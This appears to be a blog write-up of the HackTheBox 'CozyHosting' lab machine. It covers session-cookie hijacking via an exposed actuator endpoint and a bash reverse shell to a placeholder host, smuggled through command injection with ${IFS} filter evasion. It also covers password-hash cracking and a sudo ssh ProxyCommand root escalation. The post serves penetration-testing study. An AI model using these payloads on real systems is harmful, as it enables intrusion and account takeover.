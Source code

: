 HackTheBox write up: “CozyHosting” Machine
==========================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/1*8PgWCWtteykN7zPXDqImEQ.jpeg)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-cozyhosting-machine-8b55beb59ace&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----8b55beb59ace---------------------post_header-----------)

5 min read·Just now

\--

Listen

Share

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application

Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.

we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users

And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.

After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh

after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```

which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.

we can start inspecting this file using tool like jd-gui

after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads:

```
psql -h 127.0.0.1 -U postgres
``````
\\c cozyhosting
``````
\\d #to list availabe databases
``````
select \* from users; #To select all data in the users database
```

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )

```
john hash.txt --wordlist=/home/zeronull/rockyou.txt
```

now we can try to use this password to ssh into the machine using the user josh

```
ssh josh@10.10.11.230 
```

And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l

we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

and by running

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

we get our root access successfully.

and thats how we get our root flag.
